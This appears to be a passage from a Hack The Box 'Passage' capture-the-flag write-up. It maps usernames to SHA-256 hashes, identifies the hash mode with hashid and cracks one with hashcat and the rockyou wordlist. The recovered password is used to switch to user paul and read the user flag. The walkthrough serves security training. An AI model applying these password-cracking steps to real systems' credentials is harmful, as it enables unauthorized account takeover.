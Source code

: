 Let's map usernames against these hashes referring `nick` & `email` parameter of serialized data and store these hashes in a file:

```shell
cfx:  ~/Documents/htb/passage
→ cat hashes
nadav:7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
sid:4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
paul:e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
kim:f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
egre55:4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
```

Identifying the hashcat mode:

```shell
cfx:  ~/Documents/htb/passage
→ hashid -m '7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1'
Analyzing '7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1'
[+] Snefru-256
[+] SHA-256 [Hashcat Mode: 1400]
[+] RIPEMD-256
[+] Haval-256
[+] GOST R 34.11-94 [Hashcat Mode: 6900]
[+] GOST CryptoPro S-Box
[+] SHA3-256 [Hashcat Mode: 5000]
[+] Skein-256
[+] Skein-512(256)
```

Possibly the hash type is SHA-256 which is 1400 hashcat mode

```shell
cfx:  ~/Documents/htb/passage
→ hashcat -m 1400 hashes /usr/share/wordlists/rockyou.txt --username --show
paul:e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
```

We got the password for paul as `atlanta1`

### su - paul

```shell
www-data@passage:/var/www$ su paul -
Password:
paul@passage:/var/www$ cd ~
paul@passage:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  user.txt  Videos
```

Grabbing `user.txt`:

```shell
paul@passage:~$ cat user.txt
a456f9e6439dffd*****************
```
